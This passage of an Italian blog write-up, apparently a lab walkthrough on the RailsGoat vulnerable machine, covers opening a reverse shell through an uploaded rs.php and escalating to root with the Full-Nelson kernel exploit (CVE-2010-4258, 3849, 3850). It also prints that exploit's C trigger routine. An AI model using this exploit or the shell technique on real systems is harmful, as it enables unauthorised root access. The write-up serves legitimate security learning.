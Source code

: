 Navigando l'url http://172.16.202.241/railsgoat/data/rs.php, invoco lo script e
la mia shell non privilegiata viene aperta sulla macchina.

![unpriv shell]({{site.url}}/assets/images/getting-root/railsgoat/unpriv_shell.png)

## Let's root

Da dentro la macchina è più facile prendere tutte le informazioni che ci
servono per prendere il controllo della macchina. In particolare, la versione
del kernel e del sistema operativo, con la quale andremo alla ricerca di
exploits.

![system info]({{site.url}}/assets/images/getting-root/railsgoat/sysinfo.png)

Questa la lista di exploit dalla quale possiamo partire:

![exploits]({{site.url}}/assets/images/getting-root/railsgoat/exploits.png)

E la scelta cade su Full-Nelson.c privilege escalation.

Questo exploit, sfrutta la bellezza di tre vulnerabilità distinte per darci una shell di root:
* [CVE-2010-4258](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-4258)
* [CVE-2010-3849](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-3849)
* [CVE-2010-3850](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-3850)

La CVE-2010-3850 è relativa alla mancanza di controlli sull'assegnazione di un
indirizzo Econet ad interfacce arbitrarie mentre la CVE-2010-3849 è una NULL
pointer dereference nel procollo Econet.

Nell'exploit, le due vulnerabilità sono realizzate in questa routine che causa
un OOPS e permette al programma chiamante di fruttare la CVE-2010-4258 che mi
permette di scrivere NULL in porzioni arbitrari del kernel, quando un OOPS si
verifica durante una clone(2).

In particolare attraverso commit_creds e prepare_kernel_cred faremo in modo dai
dare EUID 0 al nostro processo in esecuzione.

{%highlight c%}
/* Triggers a NULL pointer dereference in econet_sendmsg
 * via sock_no_sendpage, so it's under KERNEL_DS */
int trigger(int * fildes)
{
        int ret;
        struct ifreq ifr;

        memset(&ifr, 0, sizeof(ifr));
        strncpy(ifr.ifr_name, "eth0", IFNAMSIZ);

        ret = ioctl(fildes[2], SIOCSIFADDR, &ifr);

        if(ret < 0) {
                printf("[*] Failed to set Econet address.\n");
                return -1;
        }

        splice(fildes[3], NULL, fildes[1], NULL, 128, 0);
        splice(fildes[0], NULL, fildes[2], NULL, 128, 0);

        /* Shouldn't get here... */
        exit(0);
}
{%endhighlight%}
